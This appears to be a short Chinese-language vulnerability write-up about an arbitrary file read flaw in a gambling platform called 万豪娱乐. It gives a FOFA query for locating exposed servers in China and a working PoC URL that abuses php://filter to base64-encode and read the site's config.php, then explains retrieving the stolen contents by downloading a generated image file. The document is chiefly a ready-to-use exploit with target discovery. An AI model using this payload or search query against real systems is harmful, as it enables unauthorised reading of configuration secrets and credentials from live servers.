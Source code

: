 # 万豪娱乐存在任意文件读取漏洞

# 一、漏洞简介
万豪娱乐存在任意文件读取漏洞

# <font style="color:rgb(51, 51, 51);">二、资产测绘</font>
+ fofa`"Public/Js/Mobile" && country="CN"`
+ 特征

![1732603661176-cb3a2a28-7d6a-40d4-9d80-fd111ca79567.png](./img/eaMHkXnPwwFbw3wO/1732603661176-cb3a2a28-7d6a-40d4-9d80-fd111ca79567-382774.png)

# 三、漏洞复现
```plain
/Home/game/getimg?url=php://filter/read=convert.base64-encode/resource=Application/Common/Conf/config.php&id=1993
```

<font style="color:rgb(52, 73, 94);">使用poc访问后，接着访问 /public/gamelist/1993.jpg 的图片，保存下来就是读取到的内容</font>



> 更新: 2024-11-27 10:00:05  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ifd65o9r8hm8m0ac>